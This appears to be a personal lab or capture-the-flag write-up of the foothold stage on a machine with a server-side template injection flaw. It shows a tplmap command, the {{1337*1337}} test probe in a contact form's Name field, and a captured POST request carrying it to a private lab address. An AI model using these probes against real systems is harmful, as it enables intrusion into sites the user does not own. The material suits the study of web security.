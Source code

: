 ```bash
python tplmap.py -u http://example.com/page?name=John
```

---
---
---

# Foothold 🦶

The exact location of the SSTI vulnerability can be found on the `contact/` page. Let's verify it!
The **`Name`** field does not get sanitized, you can try add `{{1337*1337}}` to multiply two numbers,  if it works, The evidence would be the number 1.787.569.

- When we finish filling the form, we can now confirm the SSTI is working. Instead of showing the input, it calculated the two numbers multiplying instead on the "greeting message"

![[corp_Server-Side-Template-Injection.png]]

---

## Burp Suite - Gain Foothold using Python-based engine Jinja2
#BurpSuite #Foxy #Python #Jinja2 #Intercept #Proxy 

Use the "Proxy tab" and hit "Intercept"
Use the Foxy Proxy extension

```
Yeah go fuck yourself... Why is copy-paste not working anymore yet again between my host and the VM?? 
it's seem to be broken half of the time I boot!? How!? Why? Greatest mystery of this universe/dimension 😧
```

Alright... Calm down my dear... Have a coffee... Let's try again... 🫂❤️‍🩹

### Request
```http
POST /contact HTTP/1.1
Host: 192.168.56.123
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Origin: http://192.168.56.123
Connection: keep-alive
Referer: http://192.168.56.123/contact
Upgrade-Insecure-Requests: 1

Name=%7B%7B1337*1337%7D%7D&w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage
```
